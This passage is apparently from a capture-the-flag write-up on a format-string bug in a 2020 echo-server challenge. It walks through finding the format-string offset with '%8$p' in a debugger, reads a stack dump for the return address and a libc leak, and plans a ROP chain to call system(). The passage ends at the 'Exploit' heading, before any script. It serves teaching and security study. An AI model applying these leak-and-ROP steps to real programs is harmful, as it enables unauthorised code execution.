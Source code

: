 ```c
}
```

`printf(local_58)` is the vulnerability, and looped three times (`local_5c`, remember this--we'll fix it later).

The attack is fairly simple, use the stack to leak the stack and libc.  We will however need to know the version of libc for the exploit I have in mind (to get a hint just: `strings echos | grep GCC`):

```
GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
```

Next, from within a Ubuntu 18.04 container, find the format-string offset and look at the stack:

```
gef➤  b *main+73
Breakpoint 1 at 0x866
gef➤  run
Starting program: /pwd/datajerk/downunderctf2020/my_first_echo_server/echos
%8$p
0xa70243825
```

Above, set a break point to get the stack while in `main`, and also try `%n$p` where `n > 0` until the output (in little endian) hex matches the input.  In this case it's `8`, and that will be the offset.

The stack:

```
0x00007fffffffe2f0│+0x0000: 0x00007fffffffe310  →  0x0000000000000002	 ← $rsp
0x00007fffffffe2f8│+0x0008: 0x0000000055754d98
0x00007fffffffe300│+0x0010: 0x0000000a70243825 ("%8$p\n"?)
0x00007fffffffe308│+0x0018: 0x000055555555481a  →  <setup+64> nop
0x00007fffffffe310│+0x0020: 0x0000000000000002
0x00007fffffffe318│+0x0028: 0x00005555555548dd  →  <__libc_csu_init+77> add rbx, 0x1
0x00007fffffffe320│+0x0030: 0x00007ffff7de59f0  →  <_dl_fini+0> push rbp
0x00007fffffffe328│+0x0038: 0x0000000000000000
0x00007fffffffe330│+0x0040: 0x0000555555554890  →  <__libc_csu_init+0> push r15
0x00007fffffffe338│+0x0048: 0x00005555555546d0  →  <_start+0> xor ebp, ebp
0x00007fffffffe340│+0x0050: 0x00007fffffffe430  →  0x0000000000000001
0x00007fffffffe348│+0x0058: 0x677c5564ed27b300
0x00007fffffffe350│+0x0060: 0x0000555555554890  →  <__libc_csu_init+0> push r15	 ← $rbp
0x00007fffffffe358│+0x0068: 0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
```

Starting from the top (offset 6) looking down there are two values that if leaked will give us the stack address of the return address (offset 6 (`+0x0000`)) and the version and location of libc (offset 19 (`+0x0068`)).

With this in hand it will be easy to write out a ROP chain to call `system` on exit.


## Exploit
